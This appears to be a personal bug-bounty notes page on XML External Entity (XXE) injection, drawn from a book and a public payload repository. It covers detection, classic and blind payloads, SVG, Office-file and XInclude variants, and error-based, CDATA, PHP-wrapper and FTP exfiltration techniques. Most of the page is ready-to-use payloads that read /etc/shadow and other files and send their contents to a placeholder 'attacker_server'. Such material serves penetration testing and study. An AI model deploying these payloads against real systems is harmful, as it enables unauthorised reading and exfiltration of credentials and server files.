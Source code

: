 # XML External Entities injection
Tags: #xxe #injection #api
Related to: [[saml]]
See also:
Previous:

## Links
Topic: XXE identification and exploit
Author: h3xstream
Link: https://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html

Book Title: Bug Bounty Bootcamp
Author: Vickie Li
Description: A lot of the payload material is taken from this book.

Topic: Various XXE payloads
Author: swisskeyrepo
Link: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

## Notes
### Detection
- Anything that looks XML based should be investigated (e.g. GPS in @h3xstream post)
- Change `application/json` to `application/xml` in API requests.

```
Content-Type: text/xml
Content-Type: application/xml
```

#### FIle Upload
 > If you can upload one of these file types, you might be able to smuggle XML input to the application’s XML parser. XML can be written into document and image formats like XML, HTML, DOCX, PPTX, XLSX, GPX, PDF, SVG, and RSS feeds. Furthermore, metadata embedded within images like GIF, PNG, and JPEG files are all based on XML.
 
 ### Payloads
- Rather than use `<example>`  below, replace with a typical tag the application is expecting. This will help prevent parsing errors.
 
 "Classic"
 ```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "Hello!">
]>
<example>&test;</example>
```

When the SYSTEM keyword does not work, you can replace it with the PUBLIC keyword instead. This tag requires you to supply an ID surrounded by quotes after the PUBLIC keyword. The parser uses this to generate an alternate URL for the value of the entity. For our purposes, you can just use a random string in its place:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test PUBLIC "abc" "file:///etc/hostname">
]>
<example>&test;</example>
```

Other file protocols work beyond `file://`. `http://` can be used to do [[ssrf]], proxy requests, or scan the internal network. `php://` can be used to take advantage of PHP wrappers on servers running [[php]].

#### Blind
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt">
]>
<example>&test;</example>
```

#### SVG
Save as a .svg file.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "file:///etc/shadow">
]>
<svg width="500" height="500">
  <circle cx="50" cy="50" r="40" fill="blue" />
  <text font-size="16" x="0" y="16">&test;</text>
</svg>
```

#### Office files
You can unzip the following, identiy .xml files, and add payloads
* docx
* pptx
* xlsx
Then, zip again

#### Xinclude
Sometimes you cannot control the entire XML document or edit the DTD of an XML document. But you can still exploit an XXE vulnerability if the target application takes your user input and inserts it into XML documents on the backend.

In this situation, you might be able to execute an XInclude attack instead. _XInclude_ is a special XML feature that builds a separate XML document from a single XML tag named `xi:include`. If you can control even a single piece of unsanitized data passed into an XML document, you might be able to place an XInclude attack within that value.

To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:

```
<example xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```

This piece of XML code does two things. First, it references the _http://www.w3.org/2001/XInclude_ namespace so that we can use the `xi:include` element. Next, it uses that element to parse and include the _/etc/hostname_ file in the XML document.

### Exfiltration
#### Blind
More complicated because of rules in most XML parsers

> An easier way to exfiltrate data via a blind XXE is by forcing the parser to return a descriptive error message. For example, you can induce a File Not Found error by referencing a nonexistent file as the value of an external entity. Your external DTD can be rewritten as follows:

*xxe.dtd*
```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/?%file;'>">
%ent;
%error;
```

Notice that I included the contents of _/etc/shadow_ in the URL parameter of the nonexistent filepath. Then you can submit the same payload to the target to trigger the attack:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
  %xxe;
]>
```

This malicious DTD will cause the parser to deliver the desired file contents as a File Not Found error:
```
java.io.FileNotFoundException: file:///nonexistent/FILE CONTENTS OF /etc/shadow
```

#### Bypassing restrictions on special chars
Sometimes you’ll want to exfiltrate files that contain XML special characters, such as angle brackets (`<>`), quotes (`"` or `'`), and the ampersand (`&`). Accessing these files directly via an XXE would break the syntax of your DTD and interfere with the exfiltration. Thankfully, XML already has a feature that deals with this issue. In an XML file, characters wrapped within `CDATA` (character data) tags are not seen as special characters. So, for instance, if you’re exfiltrating an XML file, you can rewrite your malicious external DTD as follows:

```
1 <!ENTITY % file SYSTEM "file:///passwords.xml">
2 <!ENTITY % start "<![CDATA[">
3 <!ENTITY % end "]]>">
4 <!ENTITY % ent "<!ENTITY &#x25; exfiltrate
'http://attacker_server/?%start;%file;%end;'>">
%ent;
%exfiltrate;
```

This DTD first declares a parameter entity that points to the file you want to read 1. It also declares two parameter entities containing the strings `"<![CDATA["` and `"]]>"`2 3. Then it constructs an exfiltration URL that will not break the DTD’s syntax by wrapping the file’s contents in a `CDATA` tag 4. The concatenated `exfiltrate` entity declaration will become the following:

```
<!ENTITY % exfiltrate 'http://attacker_server/?<![CDATA[CONTENTS_OF_THE_FILE]]>'>
```

You can see that our payloads are quickly getting complicated. To prevent accidentally introducing syntax errors to the payload, you can use a tool such as XmlLint ([https://xmllint.com/](https://xmllint.com/)) to ensure that your XML syntax is valid.

Finally, send your usual XML payload to the target to execute the attack:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
  %xxe;
]>
```

Another way of exfiltrating files with special characters is to use a PHP URL wrapper. If the target is a PHP-based app, PHP wrappers let you convert the desired data into base64 format so you can use it to read XML files or even binary files:

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
%ent;
%exfiltrate;
```

The File Transfer Protocol (FTP) can also be used to send data directly while bypassing special character restrictions. HTTP has many special character restrictions and typically restricts the length of the URL. Using FTP instead is an easy way to bypass that. To use it, you need to run a simple FTP server on your machine and modify your malicious DTD accordingly. I used the simple Ruby server script at [https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb):

```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM
1 'ftp://attacker_server:2121/?%file;'>">
%ent;
%exfiltrate;
```

We are using port 2121 here because the Ruby FTP server we are using runs on port 2121, but the correct port to use depends on how you run your server